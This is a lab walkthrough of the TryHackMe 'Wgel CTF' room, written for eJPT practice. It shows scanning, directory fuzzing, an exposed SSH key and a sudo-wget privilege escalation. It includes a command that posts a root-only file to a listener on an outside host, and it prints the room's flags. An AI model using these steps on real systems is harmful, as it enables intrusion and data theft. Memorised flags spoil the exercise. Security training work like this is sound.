



## Summary

**Wgel CTF** is the eleventh machine of the _Road to eJPTv2_ series. A machine that rewards thorough enumeration: a username hidden in HTML source code, an SSH private key exposed in a hidden web directory, and a creative privilege escalation using `wget` with sudo permissions.

No brute force, no public exploits — just careful enumeration and abuse of misconfigurations.

| Attribute      | Value                                                    |
| -------------- | -------------------------------------------------------- |
| **Platform**   | TryHackMe                                                |
| **Difficulty** | Easy                                                     |
| **OS**         | Linux (Ubuntu)                                           |
| **Room**       | [Wgel CTF](https://tryhackme.com/room/wgelctf)           |
| **Skills**     | Web Enum, SSH Key, Source Code Analysis, GTFOBins (wget) |

### Tools Used

- `nmap` — port scanning and version detection
- `whatweb` — web fingerprinting
- `gobuster` — web directory fuzzing
- `ssh` — private key authentication
- `netcat` — receiving the exfiltrated file

### Solution Overview

1. **Recon:** nmap detects only SSH and HTTP. The homepage shows Apache default page.
2. **Source code:** An HTML comment reveals the username `jessie`.
3. **Web fuzzing:** gobuster finds `/sitemap/`. A second fuzzing run with SSH extensions discovers `/.ssh/` inside the sitemap.
4. **SSH key:** The exposed `.ssh` directory contains a downloadable `id_rsa`.
5. **SSH access:** With the private key we access the system as `jessie`.
6. **User flag:** Found at `/home/jessie/Documents/user_flag.txt`.
7. **sudo -l:** `jessie` can run `/usr/bin/wget` as root without a password.
8. **PrivEsc:** We use `sudo wget --post-file` to exfiltrate `/root/root_flag.txt` to our machine via HTTP POST.

---

## Reconnaissance

### Ping

We verify connectivity and identify the OS by TTL:

```bash
ping -c 1 10.66.131.92
```

```
64 bytes from 10.66.131.92: icmp_seq=1 ttl=62 time=77.0 ms
```

TTL 62 → Linux (original value is 64, decremented through network hops).

### Nmap — Port Scan

```bash
nmap 10.66.131.92 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two open ports. Reduced attack surface — all enumeration will be web-based.

### Nmap — Versions and Scripts

```bash
nmap 10.66.131.92 -n -Pn -sS -p22,80 -sVC --min-rate=5000 -oN wgelscan.txt
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

The homepage is Apache's default page — nothing visible at first glance. We need to dig deeper.

### Whatweb

```bash
whatweb http://10.66.131.92
```

```
http://10.66.131.92 [200 OK] Apache[2.4.18], Title[Apache2 Ubuntu Default Page: It works]
```

Confirms Apache 2.4.18 without additional relevant information.

### Source Code — User jessie

We inspect the source code of the homepage (`view-source:http://10.66.131.92`) and find an HTML comment that leaks a username:



```html
<!-- Jessie don't forget to udate the webiste -->
```

> **Username found:** `jessie`

### Web Fuzzing — gobuster (root)

```bash
gobuster dir -u http://10.66.131.92 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak -t 50
```

```
/index.html   (Status: 200)
/sitemap      (Status: 301)
```

We find `/sitemap/` — a real website hidden behind Apache's default page.

### Web Fuzzing — gobuster (sitemap)

```bash
gobuster dir -u http://10.66.131.92/sitemap/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak -t 50
```

```
/index.html    (Status: 200)
/about.html    (Status: 200)
/contact.html  (Status: 200)
/blog.html     (Status: 200)
/services.html (Status: 200)
/shop.html     (Status: 200)
/work.html     (Status: 200)
```

A complete website but no sensitive content visible. We change strategy and look for SSH-specific files:

```bash
gobuster dir -u http://10.66.131.92/sitemap/ -w /usr/share/wordlists/dirb/common.txt -x .ssh,id_rsa,id_rsa.bak,.bash_history,.env,.git
```

```
/.ssh   (Status: 301)
```

A publicly exposed `.ssh` directory!

### Exposed SSH Private Key

We navigate to `http://10.66.131.92/sitemap/.ssh/` and find a directory listing with an RSA private key:





We download the key:

```bash
wget http://10.66.131.92/sitemap/.ssh/id_rsa
```

---

## Exploitation

### SSH Access with Private Key

We set the correct permissions on the key and connect as `jessie`:

```bash
chmod 600 id_rsa
ssh jessie@10.66.131.92 -i id_rsa
```

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
jessie@CorpOne:~$
```

System access without needing a password.

---

## Post-Exploitation

### User Flag

```bash
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ cat user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```

> **User flag:** `057c67131c3d5e42dd5cd3075b198ff6`

### sudo Enumeration

```bash
jessie@CorpOne:~$ sudo -l
```

```
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

`jessie` can run `wget` as root **without a password**. This is a documented privesc vector on GTFOBins.

---

## Privilege Escalation

### wget — Root File Exfiltration

`wget` with `sudo` and the `--post-file` flag allows sending the contents of any file as an HTTP POST body — including files only root can read.

**Attacker machine** — set up netcat listener on port 80:

```bash
nc -lvnp 80
```

**Victim machine** — send the root flag as a POST to our IP:

```bash
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 192.168.136.70
```

**Attacker machine** — we receive the file contents in the HTTP request:

```bash
connect to [192.168.136.70] from (UNKNOWN) [10.66.131.92] 41262
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```

> **Root flag:** `b1b968b37519ad1daa6408188649263d`

---

## Lessons Learned

- **HTML source code always deserves inspection** — A careless developer comment revealed the username that enabled the entire attack chain. Always check `view-source` before moving forward.
- **Changing the wordlist and extensions changes the results** — The first gobuster run missed the `.ssh` directory. The second one, using `common.txt` with SSH-specific extensions, found it. Wordlist choice matters.
- **An exposed `.ssh` directory on a web server is a critical flaw** — A downloadable private key equals full system access without needing a password. `.ssh` directories should never be accessible from the web server.
- **`sudo -l` is always the first command in post-exploitation** — Checking what the current user can run with sudo is one of the fastest and most productive privesc checks.
- **GTFOBins covers `wget` with multiple techniques** — With `sudo wget` you can read files (`--post-file`), write files (downloading to privileged paths) or even get a shell in some scenarios. Always check GTFOBins for any binary with sudo permissions.

### For the eJPT

| Concept                     | eJPT Relevance                                        |
| --------------------------- | ----------------------------------------------------- |
| Source code inspection      | Basic web recon in the exam                           |
| Fuzzing with SSH extensions | Exhaustive directory enumeration                      |
| SSH key authentication      | Alternative access vector to passwords                |
| sudo + GTFOBins             | Kernel-exploit-free privesc — very common in the exam |

**Approximate completion time:** 30-40 minutes.

---

## References

- [Wgel CTF — TryHackMe](https://tryhackme.com/room/wgelctf)
- [GTFOBins — wget](https://gtfobins.github.io/gtfobins/wget/)
- [SSH Key Authentication](https://www.ssh.com/academy/ssh/public-key-authentication)
